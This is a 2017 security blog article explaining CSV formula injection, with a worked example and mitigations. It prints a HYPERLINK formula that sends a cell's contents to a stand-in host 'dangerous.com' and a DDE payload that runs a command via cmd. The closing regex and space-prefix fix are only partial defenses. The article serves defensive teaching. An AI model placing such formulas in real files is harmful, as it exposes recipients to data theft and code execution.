 :slug: is-csv-secure/
:date: 2017-12-22
:category: techniques
:subtitle: Defining CSV injection vulnerabilities
:tags: security, csv, code, web
:image: csv.png
:alt: Blank CSV document icon
:description: Comma-Separated Values file (CSV) is a common extension in data files used in several application fields. However CSV files present a serious security issue that must be considered before using this extension. In this article we present a CSV vulnerability most people ignore.
:keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Ingeniero de Sistemas, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.

image::csv-example.png[example]

There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection".
As link:https://www.owasp.org/index.php/CSV-Injection[OWASP] says,
it occurs when websites embed untrusted input inside CSV files,
when a spreadsheet program is used to open a CSV file,
any cell starting with '*=*' is considered as a formula
and crafted formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

image::page-example.png[page]

We put some normal data and nothing happens

image::normal-input.png[input]
image::normal-result.png[result]

But what happens if we put a formula like =2+5 in a field?

image::formula-input.png[formula-input]
image::formula-result.png[formula-result]

On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site

image::hyperlink-vuln.png[vuln]

Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::first-warning.png[warning-1]
image::second-warning.png[warning-2]

And then the code execution

image::exec-example.png[exec]

The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

.test.py
[source, javascript,linenums]
----
var regexp = new RegExp(/([=,-,+,@])/g);
----

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure

image::secure-input.png[secure-input]
image::secure-result.png[secure-result]

The source code of the page for testing can be found [button]#link:csvinjection.zip[here]#
